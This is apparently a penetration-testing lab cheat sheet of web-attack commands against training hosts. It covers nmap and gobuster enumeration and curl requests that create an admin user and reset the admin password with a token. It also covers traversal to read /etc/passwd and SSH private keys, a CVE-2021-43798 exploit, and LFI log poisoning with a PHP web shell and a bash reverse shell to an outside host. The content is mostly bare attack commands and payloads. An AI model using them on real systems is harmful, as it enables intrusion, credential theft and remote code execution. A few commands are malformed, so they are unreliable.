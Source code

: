 # NMAP
fingerprinting
```
nmap -p80 -sV 192.168.241.51
nmap -p80 -sV --script=http-enum 192.168.241.51
```
# GOBUSTER
Directory brute forcing
```
gobuster dir -u 192.168.241.51 -w /usr/share/wordlists/dirb/common.txt -t 5
```
# APIs 
```
gobuster dir -u http://192.168.241.51:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```
pattern recognition file
```
{GOBUSTER}/v1
{GOBUSTER}/v2
{GOBUSTER}/v3
{GOBUSTER}/v4
{GOBUSTER}/v5
{GOBUSTER}/v1/admin
```
JSON manipulation
```
curl -i http://192.168.241.51:5002/users/v1/login
#json curl with password
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json' http://192.168.241:5002/users/v1/login
# new user as admin
curl -d '{"password":"lab","username":"offsec-admin","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.241:5002/users/v1/login
```
Steal Admin token
```
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
# XSS 

# Directory traversal
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```
Encoded Chars
```
curl http://192.168.249.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords

curl --path-as-is http://192.168.249.16/cgi-bin/%2F/%2F/%2F/%2F/%2F/%2F/opt/install.txt

curl --path-as-is http://192.168.249.16:3000/public/plugins/alertlist/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/install.txt

```


## use their ssh key
```
vim dt_key
chmod 400 dt_key
ssh -i dt_key -p 2222 offsec@mountaindesserts.com

```
## CVE-2021-43798
```
curl --path-as-is http://192.168.249.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt

```

# LFI 
Check First
```
curl http://192.168.241.X/meteor/index.php?page=../../../../../../var/log/apache2/access.log
```
Inject into burp as user agent string in php
```
<?php echo system($_GET['cmd']); ?>
```
inject into GET
```
/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la

# Rev Shell 8080
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.212%2F8080%200%3E%261%22
# Windows type file
GET /meteor/index.php?page=../../../../../../../xampp/apache/logs/access.log&cmd=type%20hopefullynobodyfindsthisfilebecauseitssupersecret.txt
# execute php file
GET /meteor/index.php?page=../../../../../../opt/admin.bak.php

```


# Checklist
get application/version 
robots.txt
sitemap.xml
dirb 

